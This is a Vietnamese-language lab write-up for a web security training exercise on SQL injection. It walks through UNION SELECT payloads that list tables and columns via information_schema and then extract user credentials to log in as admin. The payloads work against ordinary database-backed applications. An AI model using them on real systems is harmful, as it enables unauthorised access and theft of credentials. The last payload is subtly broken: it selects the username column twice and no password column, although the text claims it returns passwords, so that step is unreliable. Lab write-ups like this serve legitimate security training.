





# Lab: SQL injection attack, listing the database contents on non-Oracle databases

## Mô tả lab

Mục tiêu của lab là khai thác lỗ hổng SQL Injection để liệt kê cấu trúc cơ sở dữ liệu, xác định bảng chứa thông tin người dùng, sau đó lấy ra username và password để đăng nhập và hoàn thành bài lab.

## Các bước thực hiện

Những bước đầu tiên giống hệt với lab sau:

- **SQL injection UNION attack, determining the number of columns returned by the query**

Sau khi kiểm tra, ta xác định được:

- Truy vấn trả về 2 cột

### Xác định bảng chứa thông tin

Sử dụng payload sau để query danh sách trong bảng:

```sql
' UNION SELECT table_name, null from information_schema.tables--
```

Sau bước này, mình tìm được tên bảng người dùng:

```text
users_lzlaob
```



### Liệt kê các cột trong bảng người dùng

Sử dụng payload sau (thay thế tên bảng) để query các cột trong bảng người dùng:

```sql
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_lzlaob'--
```





### Lấy toàn bộ username và password của người dùng

Sử dụng payload sau (thay thế tên bảng và cột) để query tên người dùng và mật khẩu của tất cả người dùng:

```sql
' UNION SELECT username_tlbjax
,username_tlbjax FROM users_lzlaob--
```



Vậy là ta đã có tài khoản admin, đăng nhập và hoàn thành lab.



Lab solved.